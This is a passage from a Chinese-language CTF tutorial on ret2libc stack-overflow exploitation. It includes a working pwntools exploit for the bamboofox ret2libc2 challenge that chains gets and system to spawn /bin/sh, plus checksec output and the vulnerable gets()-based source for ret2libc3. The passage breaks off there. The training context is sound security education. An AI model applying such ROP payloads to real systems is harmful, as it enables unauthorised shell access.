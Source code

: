 这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 'bbbb' 作为虚假的地址，其后参数对应的参数内容。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

#### 例2

这里以 bamboofox 中的 ret2libc2 为例  

点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的 exp 如下

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

需要注意的是，我这里向程序中 bss 段的 buf2 处写入 /bin/sh 字符串，并将其地址作为 system 的参数传入。这样以便于可以获得 shell。

#### 例3

这里以 bamboofox 中的 ret2libc3 为例  

点击下载: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

在例 2 的基础上，再次将 system 函数的地址去掉。此时，我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。首先，查看安全保护

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的 bug 仍然是栈溢出

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
